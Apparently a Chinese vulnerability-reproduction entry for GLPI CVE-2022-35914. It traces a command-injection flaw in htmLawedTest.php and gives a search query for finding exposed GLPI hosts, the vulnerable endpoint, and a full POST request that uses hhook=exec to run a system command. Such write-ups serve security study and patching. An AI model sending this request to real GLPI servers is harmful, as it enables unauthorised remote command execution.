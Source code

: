 # GLPI htmLawedTest.php 远程命令执行漏洞 CVE-2022-35914

## 漏洞描述

GLPI是个人开发者的一款开源IT和资产管理软件。该软件提供功能全面的IT资源管理接口，你可以用它来建立数据库全面管理IT的电脑，显示器，服务器，打印机，网络设备，电话，甚至硒鼓和墨盒等。GLPI 10.0.2及之前版本存在安全漏洞，该漏洞源于htmlawed 模块中 允许 PHP 代码注入

## 漏洞影响

<a-checkbox checked>GLPI</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="GLPI"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1664764583921-930e166a-74b4-48a3-af34-9bcb1e20fa0f.png)

出现问题的文件为 **htmLawedTest.php，** 来源于第三方库 PHP Labware 

![img](../../../.vuepress/public/img/1664889433165-f745a7dc-7774-4ff0-abe6-c96d4f2f796c.png)



```sql
https://www.bioinformatics.org/phplabware/internal_utilities/htmLawed/
```

在 htmLawedTest.php 中接收参数并传入方法 htmLawed 中

![img](../../../.vuepress/public/img/1664893382208-bf44fba7-3b95-4197-a2bb-d139ec21f1d9.png)

跟进文件 htmLawed.php 中

![img](../../../.vuepress/public/img/1664946511507-81cddbd6-de1a-4df9-b7cb-da460b4c1516.png)

```sql
if($C['hook']){$t = $C['hook']($t, $C, $S);}
```

这里可以看到参数均为用户可控参数，当控制参数 hhook 为 exec 和 text 为执行的命令时就导致了命令执行漏洞

![img](../../../.vuepress/public/img/1664946759678-b3032a67-4717-44f7-a00d-101e690f8b53.png)

验证POC

```sql
/vendor/htmlawed/htmlawed/htmLawedTest.php
```

![img](../../../.vuepress/public/img/1664764633952-b6bb3e54-7b6a-49c2-94b6-39fd5cb0d032.png)

![img](../../../.vuepress/public/img/1664764647931-b53cbf79-aa45-48d4-9581-f88a58ff1b61.png)

访问页面获取到 sid 与 token 后再发送请求包

```sql
POST /vendor/htmlawed/htmlawed/htmLawedTest.php HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 88
Content-Type: application/x-www-form-urlencoded

token=a79cf121bde57fe0e3cc0f247f77961a&text=id&hhook=exec&sid=h1c0vk004dvulal5nj8i6en44e
```

![img](../../../.vuepress/public/img/1664764696143-4f92e328-735b-4587-987d-1552817796f1.png)
